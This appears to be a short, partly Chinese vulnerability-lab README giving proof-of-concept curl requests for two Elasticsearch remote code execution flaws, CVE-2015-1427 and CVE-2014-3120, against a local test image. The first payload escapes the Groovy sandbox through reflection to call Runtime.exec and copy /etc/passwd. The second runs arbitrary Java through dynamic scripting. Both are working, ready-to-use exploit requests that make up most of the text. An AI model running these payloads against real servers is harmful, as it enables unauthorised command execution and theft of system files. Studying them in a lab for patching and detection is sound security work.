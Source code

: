 ## CVE-2015-1427 - ElasticSearch Search Groovy Sandbox Bypass

测试镜像

* src/elasticsearch/1.1.1

参考链接

* [Exploit for CVE-2015-1427, ElasticSearch Unauthenticated Remote Code Execution](https://github.com/XiphosResearch/exploits/tree/master/ElasticSearch)

Poc

```
# 创建一点数据
curl 127.0.0.1:9200/what/ever -d '{"some": "data"}'; echo

# 执行代码
curl 127.0.0.1:9200/_search --data '{
  "size": 1,
  "script_fields": {
    "lupin": {
      "lang": "groovy",
      "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cp /etc/passwd /tmp\").getText()"
    }
  }
}'; echo
```

## CVE-2014-3120 - ElasticSearch Dynamic Script Arbitrary Java Execution

Poc

```
curl 127.0.0.1:9200/_search --data '{
  "size": 1,
  "query": {
    "filtered": {
      "query": {
        "match_all": {}
      }
    }
  },
  "script_fields": {
    "something": {
      "script": "new StringBuilder(\"HelloWorld\").reverse().toString()"
    }
  }
}'
```




